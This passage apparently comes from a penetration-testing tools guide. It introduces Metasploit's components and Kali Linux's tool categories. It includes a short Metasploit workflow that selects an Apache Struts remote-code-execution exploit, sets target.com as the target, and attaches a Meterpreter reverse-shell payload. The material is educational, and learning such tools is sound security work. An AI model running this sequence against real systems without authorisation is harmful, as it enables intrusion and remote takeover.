 **What it does**: Comprehensive exploitation and post-exploitation framework  
**Why it's essential**: Industry standard for vulnerability exploitation

#### Core Components:
- **Exploits**: Pre-built exploit modules
- **Payloads**: Code to execute after exploitation
- **Auxiliaries**: Supporting modules for scanning and enumeration
- **Encoders**: Payload obfuscation
- **Post modules**: Post-exploitation activities

#### Basic Workflow:
```bash
# Start Metasploit
msfconsole

# Search for exploits
search apache

# Use an exploit
use exploit/multi/http/apache_struts_rce

# Set target
set RHOST target.com

# Set payload
set payload windows/meterpreter/reverse_tcp

# Execute
exploit
```

> **Learn more**: [Metasploit Notes & Techniques](/Web-Hacking-Tools/Metasploit-Notes/)

## Operating System Tools

### Kali Linux - The Penetration Testing Distribution 🐉

**What it is**: Debian-based Linux distribution with pre-installed security tools  
**Why it's essential**: Standardized platform with 600+ tools

#### Pre-installed Categories:
- Information Gathering
- Vulnerability Analysis  
- Web Application Analysis
- Database Assessment
- Password Attacks
- Wireless Attacks
- Reverse Engineering
- Exploitation Tools
- Sniffing & Spoofing
- Post Exploitation
- Forensics
- Reporting Tools
